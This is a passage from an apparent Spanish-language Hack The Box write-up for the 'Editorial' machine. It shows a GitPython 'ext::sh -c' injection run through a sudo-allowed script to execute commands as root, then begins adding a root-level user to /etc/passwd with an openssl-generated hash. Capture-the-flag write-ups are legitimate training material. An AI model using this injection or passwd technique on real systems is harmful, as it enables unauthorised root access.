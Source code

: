 * [Remote Code Execution (RCE) - gitpython](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

Como prueba de que exista la vuln, se puede pasar como URL:

```bash
'ext::sh -c touch% /tmp/pwned'
```

Que lo que hará será aprovechar el protocolo externo (`ext`) para ejecutar mediante `sh` el comando `touch /tmp/pwned`, o sea, crear un archivo llamado `pwned` dentro de la carpeta `/tmp` :O

> Ten en cuenta el '`% `', es importante ya que así interpreta/escapa los espacios.

Si lo ejecutamos:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-shell-prod-sudo-py-clone_prod_change_py-ext-touch-pwned.png" style="width: 100%;"/>

¡SI SE ESTA CREANDO EL ARCHIVO yyyyyy EL DUEÑO ES `root`! Con lo cual ya tenemos la forma de escalar privilegios (:

## Creando usuario con todos los juguetes [📌](#escalada-gitpython-create-user) {#escalada-gitpython-create-user}

Para explotar esta vuelta, vamos a jugar con una escalada que me gusta mucho, es la de crear usuarios mediante el archivo `/etc/passwd`.

Nuestro usuario se llamará `elsancochon` y tendrá la contraseña `estoqueesnojoda`.

Primero debemos [generar el hash relacionado con esa contraseña](https://unix.stackexchange.com/questions/8229/what-methods-are-used-to-encrypt-passwords-in-etc-passwd-and-etc-shadow):

```bash
➧ openssl passwd estoqueesnojoda
$1$2yNypry0$SlzzxGBZ8Ebvtql/nwPWm1
```

Ahora creamos la sintaxis necesaria para alojar el usuario en el archivo `/etc/passwd`, veamos como está definido `root` para guiarnos:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ head -n 1 /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

* `root` es el nombre del usuario.
* `x` es la contraseña, si no está acá la busca en el `/etc/shadow`.
* `0` es el UID (User ID), el 0 hace referencia a **root**.
* `0` es el GID (Group ID), igual que antes, el 0 relaciona a **root**.
* `root` es información extra que le queramos dar al usuario.
* `/root` es el directorio HOME del usuario.
* `/bin/bash` es la shell con la que va a iniciar una conexión.

> Más info: [cyberciti.biz - /etc/passwd format](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)
